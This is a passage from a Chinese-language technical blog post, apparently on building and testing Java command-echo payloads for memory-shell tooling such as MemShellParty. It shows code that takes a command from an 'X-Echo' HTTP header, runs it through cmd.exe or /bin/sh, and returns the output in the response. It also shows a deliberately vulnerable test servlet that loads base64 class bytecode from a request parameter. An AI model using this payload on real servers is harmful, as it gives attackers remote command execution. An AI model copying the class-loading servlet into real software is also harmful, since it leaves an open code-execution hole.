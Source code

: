 ```java
                        if (data != null && !data.isEmpty()) {
                            PrintWriter writer = (PrintWriter) invokeMethod(response, "getWriter", null, null);
                            try {
                                writer.write(run(data));
                            } catch (Throwable e) {
                                e.printStackTrace(writer);
                            }
                            writer.flush();
                            writer.close();
                            return;
                        }
                    }
                }
            }
        } catch (Throwable ignored) {
        }
    }

    private String getDataFromRequest(Object request) throws Exception {
        return (String) invokeMethod(request, "getHeader", new Class[]{String.class}, new Object[]{"X-Echo"});
    }

    private String run(String data) throws Exception {
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", data} : new String[]{"/bin/sh", "-c", data};
        return new Scanner((new ProcessBuilder(cmd)).start().getInputStream()).useDelimiter("\\A").next();
    }
}
```

## 自动化测试

写好之后，应该怎么测试，我想这也是为什么那么多人 CV 的原因，大佬写了一版测了那么多，我又不测试，要不就直接 CV 吧，生怕改坏了（或者他这么写一定有他的道理的，还是不改了）。

了解 MemShellParty 的人都知道，里面有超多中间件测试镜像，自带靶场，那测试一个回显自然不在话下。

测试步骤为，在靶场写一个 RCE，然后将回显的字节码发送给靶场，assert 靶场的响应为我们预期即可。

我写了一个超级无敌 RCE 的 base64 defineClass 的漏洞靶场，直接读取 data 中的 base64 类字节码进行加载，并且往响应里面打印类对象（会自动 toString，也可以测其他恶意代码写在 toString 的 payload）。

```java
public class Base64ClassLoaderServlet extends ClassLoader implements Servlet {
    @Override
    public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
        String data = req.getParameter("data");
        try {
            byte[] bytes = decodeBase64(data);
            Object obj = defineClass(null, bytes, 0, bytes.length).newInstance();
            res.getWriter().print(obj);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
